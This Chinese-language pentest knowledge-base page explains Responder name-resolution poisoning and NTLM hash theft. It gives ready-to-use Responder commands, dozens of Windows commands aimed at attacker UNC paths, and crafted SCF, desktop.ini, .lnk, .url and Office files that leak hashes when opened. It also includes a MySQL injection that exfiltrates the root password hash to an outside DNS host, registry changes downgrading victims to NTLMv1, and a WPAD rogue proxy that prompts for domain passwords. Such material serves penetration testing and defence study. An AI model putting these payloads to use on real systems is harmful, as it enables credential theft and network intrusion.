# Responder欺骗

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

windows 基于 NTLM 认证的有 SMB、HTTP、LDAP、MSSQL 等，responder 可以通过模拟正常的 SMB 协议从而获得受害机器的 NTLMV2 hash 值，NTLM v2 不能直接应用于 Pass The Hash 攻击，只能通过暴力破解来获取明文密码。而攻击者获取 NTLMv1 hash 后，可以直接还原出 NTLM HASH，这样的话就可以将 NTLM HASH 直接用于 Pass The Hash 攻击，相较于 NTLM v2 还需要破解才能利用更加不安全。

LLMNR、NBNS、mdns 协议在 windows 中都是默认启用的，主要作用都是在 DNS 服务器解析失败后，尝试对 windows 主机名称进行解析，正因为默认启用、且实现方式又类似于 ARP 协议，并没有一个认证的过程，所以就会引发各种基于这两种协议的欺骗行为，而 Responder 正是通过这种方式，欺骗受害机器，并使受害机器在后续认证中发送其凭证。

例如当域内 win10 主机在 ping 一个不存在的主机名时，会按照下列流程尝试解析（win10 和 win7 有不同表现）：
```
1. 查看本地 hosts 文件
2. 查找 DNS 缓存，windows 可使用命令 ipconfig/displaydns 查看
3. DNS 服务器
4. 尝试 LLMNR、NBNS 和 MDNS 协议进行解析
```

win10 主机 ping hello-world



在 DNS 解析失败后，会通过 LLMNR、MDNS 和 NBNS 再次尝试进行解析，LLMNR 和 MDNS 分别向 224.0.0.252、224.0.0.251 两个 IPV4 多播地址进行广播，而 NBNS 则是向广播地址进行广播。

**相关文章**
- [Windows环境中使用Responder获取NTLMv2哈希并利用](https://www.freebuf.com/articles/system/194549.html)
- [攻防最前线：一封邮件就能捕获你的口令散列值](https://www.secrss.com/articles/8143)
- [Steal_NTLMv2_hash_using_File_Download_vulnerability](https://github.com/incredibleindishell/Windows-AD-environment-related/blob/master/Steal_NTLMv2_hash_using_File_Download_vulnerability/README.md) - 任意文件下载漏洞配合 Responder 毒化
- [内网渗透之Responder攻防（上）](https://www.freebuf.com/articles/network/256844.html)
- [内网渗透之Responder攻防（下）](https://www.freebuf.com/articles/network/265246.html)
- [域内窃取哈希一些技术](https://mp.weixin.qq.com/s/y1ehsvJEBkZ-qynNrOlAuA)
- [Places of Interest in Stealing NetNTLM Hashes](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)
- [花式窃取NetNTLM哈希的方法](https://paper.seebug.org/474/)
- [配置文件重定向获取NTLM v1\2 Hash](https://xz.aliyun.com/t/8544)

---

## Responder获取hash值

工具地址 : [lgandx/Responder](https://github.com/lgandx/Responder)

Reponder 的主要作用其实就是 “协议欺骗”+“模拟服务”，先通过 NBNS、LLMNR 或 MDNS 协议进行欺骗，将流量转到本机，再通过服务交互来获取 hash 值

```bash
# kali 自带
responder -I eth0 -rPv
```

### 通过命令获取hash并破解

在 windows7 上尝试使用 net use 访问一个不存在的主机名。
```
net use \\what\2
```





可以看到，在受害机器输入命令后，responder 已经获取到了受害机器的 NTLM V2 hash 值，由于 SMB 会尝试多次认证，所以会捕捉到多次 hash 值，在 responder 上获取到的 hash 都会保存在 `/usr/share/responder/logs/` 文件夹下，且会根据 IP、协议进行命名。

获取 hash 值之后，我们尝试使用 kali 自带的 hashcat 对这段 hash 进行暴力破解



可以看到跑出了弱口令 Abcd1234

下列命令都可以使 responder 获得 NTLV V2 hash。
```bash
net.exe use \hostshare
attrib.exe \hostshare
cacls.exe \hostshare
certreq.exe \hostshare #(noisy, pops an error dialog)
certutil.exe \hostshare
cipher.exe \hostshare
ClipUp.exe -l \hostshare
cmdl32.exe \hostshare
cmstp.exe /s \hostshare
colorcpl.exe \hostshare #(noisy, pops an error dialog)
comp.exe /N=0 \hostshare \hostshare
compact.exe \hostshare
control.exe \hostshare
convertvhd.exe -source \hostshare -destination \hostshare
Defrag.exe \hostshare
diskperf.exe \hostshare
dispdiag.exe -out \hostshare
doskey.exe /MACROFILE=\hostshare
esentutl.exe /k \hostshare
expand.exe \hostshare
extrac32.exe \hostshare
FileHistory.exe \hostshare #(noisy, pops a gui)
findstr.exe * \hostshare
fontview.exe \hostshare #(noisy, pops an error dialog)
fvenotify.exe \hostshare #(noisy, pops an access denied error)
FXSCOVER.exe \hostshare #(noisy, pops GUI)
hwrcomp.exe -check \hostshare
hwrreg.exe \hostshare
icacls.exe \hostshare
licensingdiag.exe -cab \hostshare
lodctr.exe \hostshare
lpksetup.exe /p \hostshare /s
makecab.exe \hostshare
msiexec.exe /update \hostshare /quiet
msinfo32.exe \hostshare #(noisy, pops a "cannot open" dialog)
mspaint.exe \hostshare #(noisy, invalid path to png error)
msra.exe /openfile \hostshare #(noisy, error)
mstsc.exe \hostshare #(noisy, error)
netcfg.exe -l \hostshare -c p -i foo
regsvr32 /s /u /i://x.x.x.x/@xxx scrobj.dll
echo 1 > //192.168.0.1/abc
pushd \\192.168.0.1\abc
cmd /k \\192.168.0.1\abc
cmd /c \\192.168.0.1\abc
start \\192.168.0.1\abc
mkdir \\192.168.0.1\abc
type\\192.168.0.1\abc
dir\\192.168.0.1\abc
```

### 通过文件获取hash

**图标**

可以通过图标资源来代替代 net use 这条命令，比如我们可以创建一个文件夹 test，并在 test 下再创建一个文件夹如 test2，通过给 test2 设置其他图标，能在 test2 文件夹下生成一个隐藏的系统文件 desktop.ini，而通过修改设置可以使 desktop.ini 可见，最后编辑这个文件，将图标资源指向一个不存在的主机，打开 test 文件夹之后即可获取 hash 值。



此时 desktop.ini 文件已生成，需要修改配置使 desktop.ini 文件, 将原本的 IconResource 路径修改，改为如下格式后保存即可
```
IconResource=\\hello-world\test\SHELL32.dll,2
```



当其打开这个 test 文件夹的时候，受害主机就会去请求图标资源



在 Windows XP 系统中，desktop.ini 文件使用 “IcondFile” 而不是“IconResource”。
```
[.ShellClassInfo]
IconFile=\\1.1.1.1\aa
IconIndex=1337
```

**SCF文件**

我们可以使用 SCF（Shell 命令文件）文件执行有限的一组操作（例如显示 Windows 桌面或打开 Windows 资源管理器）。但是，如果使用 SCF 文件访问特定的 UNC 路径，那么我们可以发起攻击。

我们可以所有以下代码保存为. scf 文件然后放进文件共享中。

```
[Shell]
Command=2
IconFile=\\X.X.X.X\share\aaa.ico
[Taskbar]
Command=ToggleDesktop
```

保存为 .scf 文件放在文件共享中

当用户浏览共享时，将自动从他的系统建立到 SCF 文件中包含的 UNC 路径的连接。Windows 将尝试使用用户名和密码对共享进行身份验证。在该身份验证过程中，服务器会向客户端发送一个随机的 8 字节质询密钥，并使用此质询密钥再次加密散列的 NTLM / LANMAN 密码。我们将捕获 NTLMv2 哈希。

**头像**

适用于 Windows 10/2016/2019

在更改账户图片处，用普通用户的权限指定一个 webadv 地址的图片，如果普通用户验证图片通过，那么 SYSTEM 用户 (域内是机器用户) 也去访问指定的主机，并且携带凭据，我们就可以拿到机器用户的 net-ntlm hash，这个可以用来提权。

**outlook**

发送邮件支持 html，outlook 里面的图片加载路径支持 UNC,构造 payload

```
\outlook">

```

这里支持两种协议,区别如下
- UNC 默认携带凭据, 但是如果 IP 是公网 IP 的话, 很多公司是访问不到公网 445 的
- HTTP 协议默认不携带凭据, 只有信任域 (域内 DNS 记录) 才会携带凭据. 域内的成员默认有增加 DNS 的权限, 可以用域内成员的权限在内网增加一条 DNS 记录.

**pdf**
- [deepzec/Bad-Pdf](https://github.com/deepzec/Bad-Pdf)
  - [NTLM Credentials Theft via PDF Files](https://research.checkpoint.com/2018/ntlm-credentials-theft-via-pdf-files/)

**office**

新建一个 word，添加一张图片



然后用 7zip 打开，进入 `word\_rels`，修改 `document.xml.rels`



Target 参数修改为 UNC 路径，然后加上 `TargetMode="External"`



打开 word 时,触发 NTLM 请求



**Autorun.inf**
```
[autorun]
open=\\1.1.1.1\setup.exe
icon=something.ico
action=open Setup.exe
```

**Shortcut Files (.lnk)**

我们可以创建一个包含网络路径的快捷方式，只要你打开快捷方式，Windows就会尝试解析网络路径，你还可以指定一个快捷键来触发这个快捷方式。至于图标，你可以给出一个Windows二进制文件的名称，或者从位于system32目录中的shell32.dll，Ieframe.dll，imageres.dll，pnidui.dll或wmploc.dll中选择一个图标。
```
Set shl = CreateObject(&quot;WScript.Shell&quot;)
Set fso = CreateObject(&quot;Scripting.FileSystemObject&quot;)
currentFolder = shl.CurrentDirectory

Set sc = shl.CreateShortcut(fso.BuildPath(currentFolder, &quot;\StealMyHashes.lnk&quot;))

sc.TargetPath = &quot;\\1.1.1.1\@OsandaMalith&quot;
sc.WindowStyle = 1
sc.HotKey = &quot;Ctrl+Alt+O&quot;
sc.IconLocation = &quot;%windir%\system32\shell32.dll, 3&quot;
sc.Description = &quot;I will Steal your Hashes&quot;
sc.Save
```

Powershell
```
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("StealMyHashes.lnk")
$lnk.TargetPath = "\\1.1.1.1\@OsandaMalith"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "I will Steal your Hashes"
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```

**Internet Shortcuts (.url)**

Windows 中的另一个快捷方式是 Internet 快捷方式，你可以将下面这个存储为 .url 文件：
```
echo [InternetShortcut] > stealMyHashes.url
echo URL=file://192.168.0.1/@OsandaMalith >> stealMyHashes.url
```

### 通过 web 漏洞

- xxe

  在 xxe 里面加载外部文件的时候，如果路径支持 unc 路径的话，是能拿到 net-ntlm hash 的。

  如果不支持 UNC，可再测试 http 协议。

- ssrf

  在 ssrf 里面如果支持 file 协议，并且 file 协议能加载远程资源的话，是能拿到 net-ntlm hash 的。

  当只支持 HTTP 协议的时候，也是可能打回 net-ntlm hash 的。

- XPath Injection
- 远程文件包含
- SQL Injection
  - MySQL
    在 MySQL 注入的话，可以通过带外通信把数据带出来
    ```
    SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM mysql.user WHERE user='root' LIMIT 1),'.mysql.ip.port.xxx.ceye.io\\abc'));
    ```
    需要具备 loadfile 权限，且没有 securefile_priv 的限制 (5.5.53 默认是空，之后的话默认为 NULL 就不好利用了, 不排除一些管理员会改)

    LOAD_FILE 是支持 UNC 路劲,构造
    ```
    select load_file('\\\\<Kali address>\\mysql');
    ```
  - mssql

    或者配合 mssql
    ```
    xp_dirtree "\\<Kali address>\aaa.com"
    ```

### 通过错误域名获取hash

Responder 还有通过 http 协议来骗取 hash 值的功能，由于 win7 默认会尝试通过 LLMNR、NBNS 协议解析域名，那么 win7 输入错误域名后会被欺骗并解析到 kali，随后 responder 会要求 NTLM 认证，受害机器就会发送 hash 值。

需要交互获取 hash 值,进行下测试，开启 responder、win7 打开 ie 浏览器访问一个不存在的域名

chrome 在开启 WPAD 设置时也会默认被欺骗(默认开启),firefox不会有这个问题



在 Windows 机器上 ：打开文件浏览器，连接 file:////xxxxxx/test.htlm (或者任意文件名)；



### 其他

**打印机 printer bug**

Windows 的 MS-RPRN 协议用于打印客户机和打印服务器之间的通信，默认情况下是启用的。协议定义的 RpcRemoteFindFirstPrinterChangeNotificationEx() 调用创建一个远程更改通知对象，该对象监视对打印机对象的更改，并将更改通知发送到打印客户端。

任何经过身份验证的域成员都可以连接到远程服务器的打印服务（spoolsv.exe），并请求对一个新的打印作业进行更新，令其将该通知发送给指定目标。之后它会将立即测试该连接，即向指定目标进行身份验证（攻击者可以选择通过 Kerberos 或 NTLM 进行验证）。微软表示这个 bug 是系统设计特点，无需修复。

工作组触发 printerbug 是没问题，pipepotato 在工作组内也能起作用，问题在打印机服务是以 system 用户的权限运行的服务，system 用户在工作组内的网络凭据是匿名的，wireshark 抓包应该可以看到是 \，也就是不携带任何凭据。域内能利用是因为 system 用户在域内的网络凭据是机器用户的凭据。所以主要问题应该是网络凭据这块。network service 的网络凭据也是机器用户,pc默认会开启，且一般很少去关

- **krbrelayx**
  - [dirkjanm/krbrelayx](https://github.com/dirkjanm/krbrelayx)
    ```
    python3 printerbug.py 域/用户名:密码@打印机服务ip 回连ip
    ```

---

## 加密降级攻击(或使用 Internal-Monologue)

在实际情况中，NTLMv1 hash 也是存在于 winserver 2003、windows xp 上，而在 win7 上是默认关闭的，我们可以通过修改注册表的方式，使 win7 支持 NTLM V1 认证.

由于 NTLM V1 认证过程的特殊性，非常容易被破解并还原出 NTLM HASH,为破解 NTLMv1 hash，我们还需要做一些准备，在 “欺骗阶段”，所以我们需要将 challenge 固定下来，得出特定 challenge 的 NTLMv1 hash，方便后续破解

这里手动在目标机器上降级
```
reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa\ /v lmcompatibilitylevel /t REG_DWORD /d 2 /f
reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa\MSV1_0\ /v NtlmMinClientSec /t REG_DWORD /d 536870912 /f
reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa\MSV1_0\ /v RestrictSendingNTLMTraffic /t REG_DWORD /d 0 /f
```

修改 responder 配置文件,这里我们需要修改 responder.conf 里边的 challenge 值为 `1122334455667788`，然后再次开启 responder（注意加上 --lm 参数），此时收到的 NTLMv1 hash 就可以直接破解并还原出 NTLM HASH。
```
vim /usr/share/responder/Responder.conf
```



开启 responder，启动参数加上 --lm, 不加这个参数就是并不是完全用的 server challenge，这就导致了生成的彩虹表不能使用，破解难度增加，得出 hash 的叫 NTLMv1-SSP Hash。
```
responder -I eth0 --lm
```

win7 执行命令



可以直接用 https://crack.sh/netntlm/ 秒破（现在已经用不了了）, https://ntlmv1.com/ 也可以，稍微慢一点，当然 hashcat 也可以爆破试试



**为什么能破解 NTLMv1 hash？**

- 加密方式1

  1. 将 16 字节的 NTLM hash 空填充为 21 个字节，然后分成三组，每组 7 字节。
  2. 将三组 (每组 7 字节) 经过运算后作为 DES 加密算法的密钥
  3. 加密 Server Challenge
  4. 将这三个密文值连接起来得到 response。

  总共三组，每组 8 个字节作为 key，加密 Server Challenge 获取 response。

  每组可以分开计算，已知加密内容和加密后的密文算 key。使用 des 算法，key 是八个字节。

  知道了其加密方式之后，控制 Server Challenge 为 1122334455667788，可以建立从 key 到 response 的彩虹表，并在知道 response 的情况下获取 key，破解跟机器的密码强度没有关系，且成功率几乎为 100%。

- 加密方式2

  第一种加密方式的加密内容是 Server Challenge。而这种加密方式是拼接 8 字节 Server Challenge 和 8 字节 Client Challenge 后，求其 MD5，然后取 MD5 值的前 8 字节做为加密内容。

  我们可以控制 Server Challenge 为固定的值，但是没法控制 Client Challenge 的值。

  第一种是加密的内容为固定的 1122334455667788 的话，我们只需要建立从 key 到 response 的彩虹表。而这种加密方式的话。加密的内容也是不固定的，计算的成本高

**如何控制使用哪种 NTLMv1 hash 加密方式?**

当 ntlm type2 `NTLMSSPNEGOTIATEEXTENDED_SESSIONSECURITY` 位置为 1 的时候, 加密的内容不是 server challenge，而是 md5 hash 运算过的 server challeng+client challent 的前 8 位。也就是说是第二种加密方式。

把 `NTLMSSPNEGOTIATEEXTENDED_SESSIONSECURITY` 位置为 0，那么客户端就会选择加密方式 1. 并且 Server Challenge 为 1122334455667788 的情况下。我们用 crack.sh/ntlmv1.com 快速免费有效得破解。获取到用户的 NTLM Hash。

Resonder 加上 `-lm` , 调用的模块就是 SMB1LM, 版本的实现是在 smb 协商版本的时候就将 challenge 返回，并且将 `NTLMSSPNEGOTIATEEXTENDED_SESSIONSECURITY` 置为 0.

在各个协议里面的 NTLM SSP 里面，修改 flag 位，我们找到 Responder 里面 type2 的 NTLM SSP 的 flag 位赋值的地方即可。

- 比如 smb 部分的实现，在 `packets.py` 中的 SMBSession1Data 类

  

- http 在 `packets.py` 中的 NTLM_Challenge 类里面

  

---

## WPAD

```
responder -I eth0 -r on -v -F on -w on
```

Responder 通过伪造如下 pac 文件将代理指向 ISAProxySrv:3141
```
function FindProxyForURL(url, host){
  if ((host == "localhost")
      || shExpMatch(host, "localhost.*")
      ||(host == "127.0.0.1")
      || isPlainHostName(host)) return "DIRECT";
  if (dnsDomainIs(host, "RespProxySrv")
      ||shExpMatch(host, "(*.RespProxySrv|RespProxySrv)"))
    			return "DIRECT";
  return 'PROXY ISAProxySrv:3141; DIRECT';}
```

受害者会使用 ISAProxySrv:3141 作为代理，但是受害者不知道 ISAProxySrv 对应的 ip 是什么，所以会再次查询，Responder 再次通过 llmnr 投毒进行欺骗。将 ISAProxySrv 指向 Responder 本身。然后开始中间人攻击。

Responder 创建一个身份验证屏幕，并要求客户输入他们在域中使用的用户名和密码。



没有安全意识的话就会写入在域中使用的用户名和密码。最后，我们可以看到他们的 Net-NTLM Hash。



---

## 防御手段

- [Secure-Win](../../../../Integrated/Windows/Secure-Win.md#防御responder欺骗)
